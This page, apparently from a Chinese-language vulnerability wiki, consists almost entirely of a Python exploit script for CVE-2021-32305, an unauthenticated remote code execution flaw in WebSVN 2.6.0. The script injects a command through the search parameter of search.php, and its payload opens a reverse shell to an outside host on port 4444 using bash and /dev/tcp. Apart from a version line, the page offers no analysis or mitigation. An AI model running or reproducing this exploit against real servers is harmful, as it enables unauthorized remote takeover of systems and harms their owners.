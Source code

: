 <languages />

漏洞影響
--------

Version: 2.6.0

EXP
---

    # Exploit Title: Websvn 2.6.0 - Remote Code Execution (Unauthenticated)
    # Date: 20/06/2021
    # Exploit Author: g0ldm45k
    # Vendor Homepage: https://websvnphp.github.io/
    # Software Link: https://github.com/websvnphp/websvn/releases/tag/2.6.0
    # Version: 2.6.0
    # Tested on: Docker + Debian GNU/Linux (Buster)
    # CVE : CVE-2021-32305

    import requests
    import argparse
    from urllib.parse import quote_plus

    PAYLOAD = "/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.149/4444 0>&1'"
    REQUEST_PAYLOAD = '/search.php?search=";{};"'

    parser = argparse.ArgumentParser(description='Send a payload to a websvn 2.6.0 server.')
    parser.add_argument('target', type=str, help="Target URL.")

    args = parser.parse_args()

    if args.target.startswith("http://") or args.target.startswith("https://"):
        target = args.target
    else:
        print("[!] Target should start with either http:// or https://")
        exit()

    requests.get(target + REQUEST_PAYLOAD.format(quote_plus(PAYLOAD)))

    print("[*] Request send. Did you get what you wanted?")